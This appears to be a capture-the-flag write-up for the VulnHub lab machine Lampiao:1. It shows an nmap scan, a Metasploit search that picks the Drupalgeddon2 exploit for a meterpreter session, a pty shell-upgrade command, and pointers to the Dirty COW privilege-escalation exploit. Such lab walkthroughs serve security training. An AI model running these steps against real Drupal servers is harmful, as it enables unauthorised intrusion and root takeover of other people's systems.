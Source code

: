 # Breaking Lampiao:1
Download Link: https://www.vulnhub.com/entry/lampiao-1,249/

### Step 1: Namp scan
```bash
root@kali:~# nmap -p1000-2000 -A 192.168.172.3

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-15 00:21 EDT
Nmap scan report for 192.168.172.3
Host is up (0.00069s latency).
Not shown: 1000 closed ports
PORT     STATE SERVICE VERSION
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
MAC Address: 08:00:27:7B:F2:20 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.69 ms 192.168.172.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.03 seconds
```
You can find drupal webserver hosted which is running on port 1898.
Let's check if it can be vulnerable to recently found drupal(  ) attacks.

Search metasploit for drupal related auxilary/exploits
```bash
# msfconsole
msf> search drupal

Matching Modules
================

   Name                                           Disclosure Date  Rank       Description
   ----                                           ---------------  ----       -----------
   auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Drupal OpenID External Entity Injection
   auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Drupal Views Module Users Enumeration
   exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
   exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Drupal CODER Module Remote Command Execution
   exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Drupal Drupalgeddon 2 Forms API Property Injection
   exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Drupal RESTWS Module Remote PHP Code Execution
   exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution

```
Let's use `exploit/unix/webapp/drupal_drupalgeddon2` which can give us meterpreter connection.

After meterpreter session is established get the shell by running:
```
python -c "import pty;pty.spawn('/bin/bash')"
```

Run Linux Exploit Suggestor: https://github.com/mzet-/linux-exploit-suggester
and assess vulnerabilty for previlage escalation. We can see that there are bunch of vulnerabilities reported. Let's consider dirtycow for previlage escallation.

Dirty cow exploit script can be found here: https://www.exploit-db.com/exploits/40847/




